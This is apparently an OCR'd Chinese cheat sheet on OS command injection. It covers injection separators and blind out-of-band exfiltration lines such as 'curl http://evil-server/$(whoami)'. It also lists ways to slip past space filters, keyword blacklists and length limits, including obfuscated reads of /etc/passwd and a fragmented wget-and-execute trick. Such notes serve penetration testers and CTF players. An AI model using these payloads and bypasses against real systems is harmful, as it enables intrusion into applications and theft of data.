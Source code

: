 #### 3. Java
- java.lang.Runtime.getRuntime().exec(command)

### 3. 常见注入方式
- 分号分割
- `||` `&&` `&` 分割
- `|` 管道符
- `\r\n` `%d0%a0` 换行
- 反引号解析
- `$()` 替换

### 4. 无回显技巧
- bash反弹shell
- DNS带外数据
- http带外
  - `curl http://evil-server/$(whoami)`
  - `wget http://evil-server/$(whoami)`
- 无带外时利用 `sleep` 或其他逻辑构造布尔条件

### 5. 常见绕过方式
#### 1. 空格绕过
- `<` 符号 `cat<123`
- `\t` / `%09`
- `${IFS}` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串
#### 2. 黑名单绕过
- `a=l;b=s;$a$b`
- base64 `echo "bHM=" | base64 -d`
- `/?in/?s` => `/bin/ls`
- 连接符 `cat /etc/pass'w'd`
- 未定义的初始化变量 `cat$x /etc/passwd`
#### 3. 长度限制绕过
```bash
>wget\
>foo.\
>com
ls -t>a
sh a
```
上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

### 6. 常见符号
#### 1. 命令分隔符
- `%0a` / `%0d` / `\n` |`\r`
- `;`
- `&` / `&&`
#### 2. 通配符
- `*` 0 到无穷个任意字符
- `?` 一个任意字符
- `[ ]` 一个在括号内的字符，e.g. `[abcd]`
- `[ - ]` 在编码顺序内的所有字符
- `[^ ]` 一个不在括号内的字符
